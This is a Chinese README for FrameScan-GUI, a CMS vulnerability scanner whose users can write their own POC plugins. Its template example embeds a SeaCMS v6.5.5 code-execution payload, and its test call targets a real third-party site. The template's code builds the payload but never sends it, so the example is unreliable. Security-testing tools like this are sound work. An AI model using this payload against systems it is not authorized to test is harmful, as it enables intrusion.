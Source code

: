 # FrameScan

## 工具简介
FrameScan-GUI是一款python3和Pyqt编写的具有图形化界面的cms漏洞检测框架，是[FrameScan](https://github.com/qianxiao996/FrameScan) 的加强版。支持多种检测方式，支持大多数CMS，可以自定义CMS类型及自行编写POC。旨在帮助有安全经验的安全工程师对已知的应用快速发现漏洞。
## 支持平台

- Windows  


### 使用方法

下载本项目，运行exe即可。

![1](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/1.jpg)

![2](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/2.jpg)

## 自定义POC模板

以下为POC模板，请尽量规范编写。脚本中为示例代码。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: 漏洞名称（禁止换行）控制在30字以内
referer: 漏洞地址（禁止换行）未知请填unknown
author: 作者名
description: 漏洞描述 
'''
import sys
import requests
import warnings
#方法名称自定义
class seacms_655_code_exec:
    def __init__(self, url):
        self.url = url
    def run(self):
        #此处编辑检测代码
        #示例代码，请更改result内容，result[0]为漏洞名称,result[1]为返回的内容，result[2]为测试结果
        result = ['seacms v6.5.5代码执行漏洞','','']
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*"
        url_path = self.url + "/search.php?phpinfo();"
        try:
            data = requests.get(url_path, timeout=3,headers=headers, verify=False)
            if data.status_code == 200 and 'phpinfo' in data.text:
                result[2]= "存在"
                result[1] = "URL:%s\nPOST:%s"%(url_path,payload)
            else:
                result[2] = "不存在"
        except Exception as e:
            # print (e)
            result[2] ="未知"
            #这里可设置未知，连接超时等，只有不存在不会显示到结果中。
        return result
        #最后一定要返回一个带有3个参数的列表。不然会出错误。

if __name__ == "__main__":
    #此处不会调用
    warnings.filterwarnings("ignore")
    testVuln = seacms_655_code_exec("http://baidu.com")
    print(testVuln.run())
```

## 鸣谢

POC多数来源于[AngelSword](https://github.com/Sch01ar/AngelSword)
部分为自己编写，欢迎投递POC

邮箱地址：qianxiao996@126.com

## 警告！
**请勿用于非法用途！否则自行承担一切后果**



## 使用问题

### 问题一

![3](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/1.png)

将Qt安装目录下的platforms文件夹复制到exe程序目录。若风格不同，复制styles文件夹到程序目录。

### 问题二

若出现以下提示模块不存在，请pip安装模块或在Plugins.py中注释掉该行。

![4](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/4.png)
